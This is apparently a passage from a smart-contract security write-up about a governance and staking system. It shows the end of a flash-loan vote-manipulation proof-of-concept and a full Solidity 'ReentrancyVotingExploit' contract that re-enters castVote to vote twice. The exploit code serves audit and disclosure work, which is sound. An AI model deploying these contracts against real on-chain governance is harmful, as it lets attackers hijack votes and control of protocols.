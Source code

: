 ```solidity

        // Step 3: Vote with inflated stake weight
        govHub.castVote(proposalId, 1); // Support with massive weight

        // Step 4: Unstake (before flash loan repayment)
        stakeHub.unstake(loanAmount);

        // Step 5: Repay flash loan
        IERC20(stakeToken).transfer(address(flashLoanProvider), loanAmount);

        // Result: Vote remains recorded with massive weight
        // But stake was only held for one transaction
        emit FlashLoanVoteExecuted(proposalId, loanAmount);
    }
}
```

### **Attack Vector 3: Reentrancy in Vote Weight Calculation**
```solidity
// Proof-of-Concept: Reentrancy Voting Attack
contract ReentrancyVotingExploit {

    IGovHub public govHub;
    uint256 public targetProposal;
    bool public attacking;

    function initiateReentrancyAttack(uint256 proposalId) external {
        targetProposal = proposalId;
        attacking = true;

        // Trigger vote that will call back into this contract
        govHub.castVote(proposalId, 1);
    }

    // This function is called during vote weight calculation
    receive() external payable {
        if (attacking) {
            attacking = false; // Prevent infinite recursion

            // Reentrancy: Vote again while weight calculation is in progress
            govHub.castVote(targetProposal, 1);

            // This creates mathematical inconsistency in vote counting
        }
    }
}
```

---
